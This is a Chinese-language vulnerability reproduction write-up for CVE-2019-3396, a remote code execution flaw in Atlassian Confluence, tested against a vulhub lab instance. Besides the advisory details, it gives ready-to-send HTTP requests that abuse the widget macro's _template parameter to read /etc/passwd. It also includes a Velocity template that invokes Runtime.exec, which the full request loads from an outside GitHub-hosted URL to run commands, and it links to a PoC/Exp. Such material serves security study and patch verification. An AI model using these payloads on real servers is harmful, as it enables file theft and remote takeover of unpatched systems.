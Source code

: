 # Confluence 远程命令执行漏洞(CVE-2019-3396)

##### 1 漏洞概述

###### 漏洞编号

CVE-2019-3396

###### 漏洞名称

Confluence 远程命令执行漏洞(CVE-2019-3396)

###### 漏洞评级

高危

###### 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

###### 漏洞利用条件和方式

无

###### 漏洞影响范围

6.6.12之前所有6.6.x版本

6.12.3之前所有6.12.x版本

6.13.13之前所有6.13.x版本

6.14.2之前所有6.14.x版本

###### 修复建议

 官方已修复该漏洞，请到官网下载无漏洞版本：<https://www.atlassian.com/> 



##### 2 环境准备

使用vulhub上的漏洞环境：

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>



##### 3 漏洞验证

读取/etc/passwd：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```

![1](README.assets/1.png)



##### 4 漏洞利用

命令执行的模板如下：

```
#set($exp="exp")
#set($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
	$scan.next()
#end
```

将模板上传到github上，访问链接如下：

<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm>

执行ls命令完整的发包如下：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 259

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm","command":"ls"}}}
```

![2](README.assets/2.png)



##### 5 Poc/Exp

基于pocsuite模板的Poc/Exp链接：

<https://github.com/qlxmy/vul>

Poc验证：

![3](README.assets/3.png)

Exp验证：

![4](README.assets/4.png)



**参考链接：**

<https://www.freebuf.com/column/200320.html>

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>

[https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE%E5%A4%8D%E7%8E%B0/](https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE复现/)